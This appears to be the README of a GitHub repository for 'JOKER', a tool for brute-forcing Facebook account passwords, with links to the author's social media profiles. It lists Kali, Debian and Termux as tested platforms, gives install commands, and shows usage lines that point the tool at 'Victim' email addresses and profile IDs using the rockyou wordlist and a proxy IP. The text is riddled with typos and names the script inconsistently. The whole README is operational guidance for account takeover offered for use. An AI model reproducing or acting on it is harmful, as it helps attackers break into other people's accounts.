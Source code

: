 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)
<code><img height="300" src="https://elements-cover-images-0.imgix.net/599cf8df-69ea-42ee-ab6a-23e8d13624f3?auto=compress%2Cformat&fit=max&w=1019&s=0d7fb3fd2fdfba13dd2056a099b22dac"></code>
# JOKER FACEBOOK BRUTAL FORCE ATTACK

## Is facebook burtalforce tool joker brutal force is tested on this os and divces
-------------------------------------------------------------------------------------
### 1: KALI LINUX
### 2: ANY DIBIAN BASED OS AND UBUNTU
### 3: TERMUX 
### 4: ANY OS THAT PYTHON INSTALLED ON IT




----------------------------------------------------------------------------
## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 

------------------------------------------------------------------------------------------
## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###

<img src="/jk.PNG" >

